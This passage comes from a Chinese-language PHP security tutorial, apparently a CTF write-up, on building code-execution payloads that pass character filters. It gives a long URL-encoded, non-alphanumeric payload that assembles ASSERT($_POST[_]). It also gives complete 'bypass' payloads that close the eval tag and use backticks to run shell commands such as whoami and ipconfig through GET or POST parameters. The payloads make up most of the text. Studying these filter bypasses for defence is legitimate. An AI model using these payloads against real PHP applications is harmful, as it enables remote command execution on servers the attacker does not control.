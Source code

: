 ```php
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])

放到一起再url编码一下：
?cmd=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
```

由于PHP中函数对大小写不敏感，所以我们最终执行的是ASSERT()而不是assert(),太长了。。。。

# 四、方法进阶与绕过

## 0x01 过滤了_

在我们上面的例子中，_的主要用途就是在构造变量。但其实最简便的方法里面，我们可以完全不用_，这里给出一个例子。

闭合php脚本标签，再用断标签执行我们的代码：

```php
1)GET传参数
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?> 
即：?><?=`{${_GET}[%a0]}`?>   //通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令，%a0是_的url编码
完整payload：
?cmd=?%3E%3C?=`{${~%22%a0%b8%ba%ab%22}[%a0]}`?%3E&%a0=whoami
分析下这个Payload，?>闭合了eval自带的<?标签。接下来使用了短标签。{}包含的PHP代码可以被执行，~"%a0%b8%ba%ab"为"_GET"，通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令。
    
2)POST传参数
?><?=`{${~"%a0%af%b0%ac%ab"}[%a0]}`?>     POST数据：%a0=ipconfig
即：?><?=`{${_POST}[%a0]}`?> //通过反引号进行shell命令执行。最后我们只要POST传参%a0即可执行命令
完整payload：
?cmd=?%3E%3C?=`{${~%22%a0%af%b0%ac%ab%22}[%a0]}`?%3E   POST数据：%a0=ipconfig
```
